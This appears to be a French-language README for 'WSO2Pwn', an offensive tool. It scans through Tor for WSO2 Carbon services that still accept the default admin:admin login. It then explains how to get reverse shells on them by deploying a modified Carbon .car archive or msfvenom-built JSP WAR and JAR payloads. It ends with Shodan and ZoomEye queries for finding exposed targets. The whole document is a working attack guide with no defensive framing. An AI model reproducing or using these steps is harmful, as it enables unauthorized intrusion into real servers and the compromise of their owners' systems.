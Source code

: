# WSO2Pwn
check admin:admin (cred par défaut) sur les services type WSO2 (Identity, Entreprise Service Bus, Entreprise Integrator, Api Manager, ect..)
scan via tor en 127.0.0.1:9050

python WSOpwn.py -i dom -t 50


#Pour Pwn Entreprise Service Bus, Entreprise Integrator:

go IP:PORT/carbon et deploie une application carbon, le ZIP est une application Carbon (reverse shell)

il faut set l'ip, le port et le type de shell (/bin/bash, cmd.exe) dans pack_1.0.0.zip\HelloWorld_1.0.0\HelloWorld-1.0.0.xml
puis modifier l'extension en .car avant de déployer.

#Pour Pwn Api Manager, Governance Registry  :

go IP:PORT/carbon et deploie une application war

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > meh.war

#Pour pwn Application Server:

go IP:PORT/carbon et deploie une application jar

msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f jar > meh.jar

#recherche targets :

shodan:carbon

zoomeye: "Server: WSO2 Carbon Server"
